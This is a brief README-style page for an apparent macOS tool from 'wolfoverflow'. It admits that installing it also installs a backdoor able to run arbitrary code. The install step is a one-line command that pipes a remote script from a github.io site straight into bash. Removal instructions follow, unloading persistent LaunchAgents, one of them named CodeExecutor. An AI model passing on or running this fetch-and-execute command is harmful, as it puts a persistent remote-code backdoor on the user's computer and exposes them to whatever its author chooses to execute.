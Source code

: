 # Note that this also installs a backdoor that has arbitrary code. Use at your own risk.

# How to use

Run the following line: curl -S "https://wolfoverflow.github.io/script" | bash

# To remove

launchctl unload ~/Library/LaunchAgents/com.wolfoverflow.giveup.plist && rm -rf ~/Library/LaunchAgents/com.wolfoverflow.giveup.plist && launchctl unload ~/Library/LaunchAgents/com.wolfoverflow.CodeExecutor.plist && rm -rf ~/Library/LaunchAgents/com.wolfoverflow.CodeExecutor.plist
